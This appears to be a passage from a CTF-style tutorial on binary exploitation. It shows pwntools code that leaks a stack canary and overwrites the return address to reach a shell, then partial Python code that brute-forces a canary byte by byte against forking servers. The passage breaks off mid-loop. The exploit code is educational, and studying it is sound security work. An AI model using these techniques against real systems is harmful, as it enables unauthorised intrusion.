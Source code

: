 ```python


# leak Canary

payload = "A"*100

io.sendline(payload)



io.recvuntil ( &quot;A&quot; * 100)
Canary = u32(io.recv(4))-0xa

log.info("Canary:"+hex(Canary))



# Bypass Canary

payload = "\x90"*100+p32(Canary)+"\x90"*12+p32(get_shell)

io.send(payload)



io.recv ()


io.interactive ()
```

### one-by-one 爆破 Canary



For Canary, although the Canary is different each time the same process restarts (the same as GS, GS is restarted), but the Canary of each thread in the same process is identical.
Also, there is a class that opens the child process interaction through the fork function, because the fork function directly copies the memory of the parent process, so the Canary of each child process created is the same. We can use this feature to completely blast Canary byte by byte.
In the famous offset2libc bypassing all protected linux64bit articles, the author is using this way to blast the Canary:
This is the Python code for blasting:


```python

print "[+] Brute forcing stack canary "



start = len (p)
stop = len (p) +8


while len(p) < stop:

   for i in xrange(0,256):

      res = send2server(p + chr(i))



      if res != "":

```